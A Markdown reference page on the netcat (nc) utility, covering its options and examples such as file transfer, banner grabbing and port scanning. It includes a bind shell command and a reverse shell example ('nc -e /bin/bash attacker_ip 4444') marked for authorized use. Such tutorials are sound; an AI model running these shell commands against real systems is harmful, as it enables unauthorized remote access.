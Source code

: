 ```yaml
---
title: "nc Command"
date: "2025-01-12"
description: "Netcat utility for reading from and writing to network connections using TCP or UDP."
videoId: ""
---
```


### Overview

The `nc` (netcat) command is a powerful networking utility in Unix-like operating systems. Often referred to as the "Swiss Army knife" of networking tools, `nc` enables users to read from and write to network connections using TCP or UDP protocols. Its versatility makes it invaluable for tasks such as debugging, file transfers, port scanning, and setting up simple servers or clients.

**Key Features:**
- **Port Scanning**: Identify open ports on target systems.
- **File Transfers**: Send and receive files over the network.
- **Banner Grabbing**: Retrieve service banners to gather information about running applications.
- **Chatting**: Establish simple chat sessions between two hosts.
- **Proxying and Tunneling**: Route traffic through intermediary systems.
- **Scripting and Automation**: Integrate into scripts for automated network tasks.

### Basic Usage

```bash
nc [OPTIONS] [HOST] [PORT]
```

- **HOST**: The target hostname or IP address.
- **PORT**: The target port number.
- **OPTIONS**: Flags that modify the behavior of `nc`.

**Example:**
```bash
nc example.com 80
```
- Connects to `example.com` on port `80` (HTTP).

### Common Options

1. **`-l` (Listen Mode)**
   ```bash
   nc -l 1234
   ```
   - Sets `nc` to listen on port `1234` for incoming connections.

2. **`-v` (Verbose)**
   ```bash
   nc -v example.com 80
   ```
   - Provides detailed information about the connection process.

3. **`-z` (Zero-I/O Mode)**
   ```bash
   nc -zv example.com 20-30
   ```
   - Scans ports `20` to `30` on `example.com` without sending any data.

4. **`-w` (Timeout)**
   ```bash
   nc -w 5 example.com 80
   ```
   - Sets a timeout of `5` seconds for connections.

5. **`-u` (UDP Mode)**
   ```bash
   nc -u example.com 53
   ```
   - Uses UDP instead of the default TCP protocol.

6. **`-e` (Execute Program)**
   ```bash
   nc -l -p 1234 -e /bin/bash
   ```
   - Executes `/bin/bash` upon connection (use with caution due to security risks).

7. **`-n` (Numeric-Only)**
   ```bash
   nc -n example.com 80
   ```
   - Prevents DNS lookups, using only numeric IP addresses.

8. **`-k` (Keep-Open)**
   ```bash
   nc -lk 1234
   ```
   - Keeps the listening port open for multiple connections.

### Examples

1. **Set Up a Simple Chat Server**
   ```bash
   nc -l 1234
   ```
   - Listens on port `1234`. Another user can connect using `nc [server_ip] 1234` to chat.

2. **Transfer a File from Server to Client**
   - **Server Side:**
     ```bash
     nc -l 1234 < file_to_send.txt
     ```
   - **Client Side:**
     ```bash
     nc server_ip 1234 > received_file.txt
     ```

3. **Port Scanning**
   ```bash
   nc -zv example.com 20-25
   ```
   - Scans ports `20` to `25` on `example.com` to check which are open.

4. **Retrieve HTTP Headers (Banner Grabbing)**
   ```bash
   echo -e "HEAD / HTTP/1.1\r\nHost: example.com\r\n\r\n" | nc example.com 80
   ```
   - Sends an HTTP HEAD request to `example.com` and retrieves the response headers.

5. **Create a Simple HTTP Server**
   ```bash
   while true; do echo -e "HTTP/1.1 200 OK\r\n\r\nHello World" | nc -l -p 8080; done
   ```
   - Serves "Hello World" on port `8080` for every incoming HTTP request.

6. **Connect to a UDP Service**
   ```bash
   nc -u example.com 53
   ```
   - Connects to the DNS service on `example.com` using UDP.

7. **Execute a Reverse Shell (For Authorized Use Only)**
   - **Listener:**
     ```bash
     nc -lvp 4444
     ```
   - **Client Side:**
     ```bash
     nc -e /bin/bash attacker_ip 4444
     ```
   - **Warning:** Reverse shells can be exploited for unauthorized access. Use responsibly.

8. **Check if a Port is Open**
   ```bash
   nc -zv example.com 80
   ```
   - Checks if port `80` on `example.com` is open and listening.

9. **Send a Message to a UDP Port**
   ```bash
   echo "Hello UDP" | nc -u example.com 9999
   ```
   - Sends the message "Hello UDP" to port `9999` on `example.com` using UDP.

10. **Pipe Output to `nc` for Real-Time Data Transfer**
    ```bash
    tail -f /var/log/syslog | nc -l 1234
    ```
    - Streams the `syslog` file to any client that connects to port `1234`.

### Tips and Best Practices

- **Security Considerations**: Using `nc` with the `-e` option can create security vulnerabilities. Avoid using it on untrusted networks and ensure proper firewall configurations.
  
- **Use Verbose Mode for Debugging**: The `-v` flag provides detailed connection information, which is helpful for troubleshooting.
  
- **Combine with Other Tools**: Integrate `nc` with tools like `grep`, `awk`, or `sed` for advanced data processing.
  
- **Automate Tasks with Scripts**: Incorporate `nc` into shell scripts to automate file transfers, monitoring, or alerting mechanisms.
  
- **Monitor Network Activity**: Use `nc` to monitor and debug network services by sending custom requests and analyzing responses.
  
- **Stay Updated**: Ensure you have the latest version of `nc` installed to benefit from security patches and feature enhancements.
  
- **Use `nc` Alternatives When Needed**: Tools like `socat` offer more advanced networking capabilities if `nc` doesn't meet your requirements.
  
- **Limit Usage to Trusted Environments**: Only use `nc` in secure and controlled environments to prevent unauthorized access or data leaks.
  
- **Understand Protocols**: Be familiar with TCP and UDP protocols to effectively utilize `nc` for different networking tasks.
  
- **Leverage Help and Man Pages**: Use `man nc` or `nc --help` to explore all available options and understand their functionalities.